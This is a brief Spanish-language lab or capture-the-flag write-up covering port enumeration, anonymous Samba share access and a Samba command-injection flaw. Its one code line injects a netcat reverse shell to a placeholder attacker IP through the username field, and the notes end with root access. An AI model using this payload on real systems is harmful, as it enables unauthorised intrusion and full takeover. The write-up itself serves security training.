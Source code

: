 <img src="Pasted%20image%2020240711182035.png">
encontramos que están abiertos los puertos 21,22,139,445.
La versión de samba el vulnerable a una inyección de comandos.

<img src="Pasted%20image%2020240711184518.png">
Tenemos permiso de escritura y de lectura al directorio tmp del servidor con el usuario anonymous.

aprovechamos esto para crear una reverse shell.
```
logon "/=´nc ip_atacante -e /bin/bash´"
```

<img src="Pasted%20image%2020240711185125.png">
Accedemos como root a la máquina.

